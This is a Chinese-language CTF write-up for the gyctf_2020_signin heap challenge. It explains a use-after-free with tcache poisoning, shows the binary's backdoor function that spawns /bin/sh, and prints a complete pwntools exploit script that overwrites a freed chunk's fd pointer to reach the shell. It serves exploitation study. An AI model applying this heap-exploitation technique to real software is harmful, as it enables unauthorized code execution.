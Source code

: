 

## 2.gyctf_2020_signin（UAF）

ptr不为0的时候可以执行getshell，这题可以add9个chunk 有tcache 7个填充 1个触发 并且有uaf漏洞

```c
void __noreturn backdoor()
{
  calloc(1uLL, 0x70uLL);
  if ( ptr )
    system("/bin/sh");
  exit(0);
}
```

uaf的漏洞存在使得我们释放后依然可以edit，在里面写入prt-0xxx xx的话随缘吧 因为你uaf写到fd里面的时候

我下一个申请的chunk是把这片区域开始的地方当chunk的，让里面有东西就好了建议大于0x10就行了

exp

```python
from pwn import *
context.log_level='debug'
r=process('gyctf_2020_signin')
#r=remote('node4.buuoj.cn',28866)
def add(index):
	r.recvuntil("your choice?")
	r.sendline('1')
	r.recvuntil("idx?\n")
        r.sendline(str(index))
	

def delete(index):
	r.recvuntil("your choice?")
	r.sendline('3')
	r.recvuntil("idx?\n")
	r.sendline(str(index))

ptr = 0x4040C0

def edit(index, content):
	r.recvuntil("your choice?")
	r.sendline('2')
	r.recvuntil("idx?\n")
	r.sendline(str(index))
	r.send(content)

for i in range(8):
        add(i)

for i in range(8):
        delete(i)

payload=p64(ptr-0x18)
edit(7,payload)
add(8)
r.sendline(str(6))
r.interactive()
```
